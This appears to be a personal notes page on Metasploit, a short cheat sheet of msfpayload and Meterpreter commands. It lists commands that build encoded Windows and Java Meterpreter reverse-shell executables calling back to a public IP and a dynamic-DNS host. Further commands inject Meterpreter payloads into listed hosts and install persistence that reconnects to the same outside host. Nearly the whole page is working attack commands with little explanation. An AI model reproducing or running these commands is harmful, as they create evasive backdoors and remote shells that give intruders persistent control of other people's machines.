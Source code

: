 <!-- TITLE: Metasploit Main -->
<!-- SUBTITLE: A quick summary of Metasploit Main -->


[Back to Tools](/tools)

[Metasploit Site](https://www.metasploit.com/)
# MSFVenom


Following is pretty old.  MSFvenom instead of msfpayload, but things I need to look up.
Encrypting
./msfpayload windows/meterpreter/reverse_tcp LHOST=71.229.140.156 LPORT=9999 R | ./msfencode -t exe > meterp.exe
[*] x86/shikata_ga_nai succeeded with size 318 (iteration=1)

NEW ONE:
./msfpayload windows/meterpreter/reverse_tcp_dns LHOST=olympus.dyns.cx LPORT=9998 R | ./msfencode -c 10 -t exe > meterp.exe

Make a DLL exploit with msfpayload
msfpayload windows/exec CMD=calc.exe D > test.dll

Java Jar file (note the [R]aw and not [J]avascript output.)
./msfpayload java/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT 9996 R > file.jar 

[Payload in a DLL](/payloaddll) - (msfvenom can do this now, but interesting for future anyway.)

# Meterpreter

Sending Shells to other people

run duplicate -D -r -e executable_to_inject -p 4444 -r listenhost

Next command will send meterpreters to each ip in -mr list

run multi_meter_inject -pt windows/meterpreter/reverse_https -mr 10.128.129.200,10.128.129.201 -p 443


# Known Attack Patterns
[Pass the Hash](/passthehash)
# Writing Exploits
# Post Module Tricks
run persistence -P windows/meterpreter/reverse_tcp_dns -S -i 9000 -p 9998 -r olympus.dyns.cx
-i - I think is interval

# MSFDB Commands
# MSF RPC Connections